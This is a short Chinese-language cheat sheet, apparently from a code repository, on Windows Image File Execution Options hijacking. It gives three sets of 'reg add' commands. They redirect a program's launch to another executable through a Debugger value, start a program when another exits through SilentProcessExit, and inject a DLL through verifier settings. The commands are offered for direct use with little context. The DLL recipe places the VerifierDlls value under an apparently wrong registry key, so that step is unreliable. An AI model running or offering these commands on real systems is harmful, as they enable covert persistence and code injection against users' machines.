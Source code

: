 # Windows 映像劫持
* 有程序 `7z.exe` ,双击运行它之后,实际运行的却是 `rar.exe`, `7z.exe` 会以参数形式传递给 `rar.exe`
    ```cmd
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\7z.exe" /t REG_SZ /v Debugger /d "C:\rar.exe" /f
    ```
* 程序 `7z.exe` 已经在运行,关闭它后,自动启动 `rar.exe`
    ```cmd
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\7z.exe" /t REG_DWORD /v GlobalFlag /d 512 /f /reg:32
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\7z.exe" /t REG_DWORD /v ReportingMode  /d 1 /f /reg:32
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\7z.exe" /t REG_SZ /v MonitorProcess /d "C:\rar.exe" /f /reg:32
    ```
* 有程序 `7z.exe` ,启动它时,注入 `rar.dll` ,须将dll放入 `C:\Windows\SysWOW64` 或 `C:\Windows\System32` 目录下
    ```cmd
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\7z.exe" /t REG_DWORD /v GlobalFlag /d 256 /f
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\7z.exe" /t REG_SZ /v VerifierDlls /d "rar.dll" /f
    ```